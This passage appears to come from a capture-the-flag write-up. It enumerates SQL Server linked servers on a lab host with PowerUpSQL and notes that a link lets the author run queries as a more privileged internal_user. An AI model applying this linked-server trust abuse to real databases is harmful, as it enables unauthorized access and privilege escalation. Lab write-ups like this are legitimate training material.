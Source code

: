 ```
ExploitCmd    : Example query: SELECT * FROM OPENQUERY([COMPATIBILITY\POO_CONFIG],'Select ''Server: '' + @@Servername +'' '' + ''Login: '' + SYSTEM_USER')
Details       : The SQL Server link COMPATIBILITY\POO_CONFIG was found configured with the internal_user login.
Reference     : https://msdn.microsoft.com/en-us/library/ms190479.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
```

Let's explore this further:

```
PS C:\Users\snowscan> get-sqlserverlink -verbose -instance $i -username $user -password $pass
VERBOSE: 10.13.38.11,1433 : Connection Success.


ComputerName           : 10.13.38.11
Instance               : 10.13.38.11,1433
DatabaseLinkId         : 0
DatabaseLinkName       : COMPATIBILITY\POO_PUBLIC
DatabaseLinkLocation   : Local
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             : Uses Self Credentials
RemoteLoginName        :
is_rpc_out_enabled     : True
is_data_access_enabled : False
modify_date            : 3/17/2018 1:21:26 PM

ComputerName           : 10.13.38.11
Instance               : 10.13.38.11,1433
DatabaseLinkId         : 1
DatabaseLinkName       : COMPATIBILITY\POO_CONFIG
DatabaseLinkLocation   : Remote
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             :
RemoteLoginName        : internal_user
is_rpc_out_enabled     : True
is_data_access_enabled : True
modify_date            : 3/17/2018 1:51:08 PM
```

So using our `external_user`, we can execute commands as `internal_user` on the other DB instance `POO_CONFIG`.

The following blog has an interesting technique to exploit trust in linked servers: [http://www.labofapenetrationtester.com/2017/03/using-sql-server-for-attacking-forest-trust.html](http://www.labofapenetrationtester.com/2017/03/using-sql-server-for-attacking-forest-trust.html)

So, `COMPATIBILITY\POO_PUBLIC` and `COMPATIBILITY\POO_CONFIG` are both linked.

We can see this using: `select * from master..sysservers`
